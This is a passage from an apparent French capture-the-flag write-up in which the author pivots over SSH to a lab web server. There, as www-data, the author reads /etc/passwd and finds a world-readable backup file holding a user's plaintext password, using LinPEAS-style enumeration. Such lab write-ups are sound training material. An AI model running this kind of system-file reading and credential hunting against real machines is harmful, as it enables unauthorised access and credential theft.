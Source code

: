 Je m'y connecte depuis `MailServer` :

```bash
root@MailServer:/root# ssh -p 31337 172.17.0.5
The authenticity of host '[172.17.0.5]:31337 ([172.17.0.5]:31337)' can't be established.
RSA key fingerprint is SHA256:Mi6GInNEYmXViUaaf2Gf8q1DXoQb/RAUgA2gquh3R1A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[172.17.0.5]:31337' (RSA) to the list of known hosts.
root@172.17.0.5's password: 
www-data@WebServer:/var/www/html/ping$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
oscar:x:1000:1000:Oscar White,,,,I am sysadmin of the Nully Cybersecurity web server:/home/oscar:/bin/bash
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
oliver:x:1001:1001:Oliver Jackson,,,,I am in charge of the website and web applications:/home/oliver:/bin/bash
messagebus:x:102:104::/nonexistent:/usr/sbin/nologin
```

J'ai pris l'habitude de jeter un oeil dans `/var/backups` comme l'aurait fait `LinPEAS` :

```bash
www-data@WebServer:/var$ ls backups/
total 16K
drwxr-xr-x 1 root   root   4.0K Aug 26  2020 .
drwxr-xr-x 1 root   root   4.0K Aug 25  2020 ..
-rwxrwxrwx 1 oliver oliver   63 Aug 26  2020 .secret
www-data@WebServer:/var$ cat backups/.secret 
Dont forget
my password - 4hppfvhb9pW4E4OrbMLwPETRgVo2KyyDTqGF
```

J'ai aussi pris l'habitude de créer un alias pour la commande `ls`, ce qui explique que les fichiers cachés apparaissent :

```bash
alias ls="ls -alh --color"
```
